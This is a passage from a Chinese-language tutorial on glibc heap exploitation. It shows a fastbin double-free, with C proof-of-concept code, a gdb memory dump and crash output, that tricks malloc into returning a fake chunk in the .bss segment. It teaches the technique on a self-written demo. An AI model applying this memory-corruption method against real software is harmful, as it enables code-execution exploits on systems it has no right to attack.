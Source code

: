 下面这个示例演示了这一点，首先跟前面一样构造main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用malloc返回chunk1之后修改chunk1的fd指针指向bss段上的bss_chunk，之后我们可以看到fastbin会把堆块分配到这里。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;  
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;
    
    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);
    
    free(chunk1);
    free(chunk2);
    free(chunk1);
    
    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
在我的系统上chunk_b输出的值会是0x601090，这个值位于bss段中正是我们之前设置的`CHUNK bss_chunk`
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x601080 <bss_chunk>:	0x0000000000000000	0x0000000000000021
0x601090 <bss_chunk+16>:0x0000000000000000	0x0000000000000000
0x6010a0:	            0x0000000000000000	0x0000000000000000
0x6010b0:	            0x0000000000000000	0x0000000000000000
0x6010c0:	            0x0000000000000000	0x0000000000000000
```
值得注意的是我们在main函数的第一步就进行了`bss_chunk.size=0x21;`的操作，这是因为_int_malloc会对欲分配位置的size域进行验证，如果其size与当前fastbin链表应有size不符就会抛出异常。
```
*** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
./tst[0x400636]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
./tst[0x4004e9]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
```

  [1]: http://static.zybuluo.com/vbty/e8k7kq9w9a0fzm0qxfpzwpw5/%E6%8D%95%E8%8E%B7.PNG
  [2]: http://static.zybuluo.com/vbty/48ue5xatzz40sif5qnqu8syz/%E6%8D%95%E8%8E%B7.PNG
  [3]: http://static.zybuluo.com/vbty/0101jwbohr0r8sjha5yvxuu6/%E6%8D%95%E8%8E%B7.PNG
  [4]: http://static.zybuluo.com/vbty/ggyvxt73jujf9qlcnm429khb/%E6%8D%95%E8%8E%B7.PNG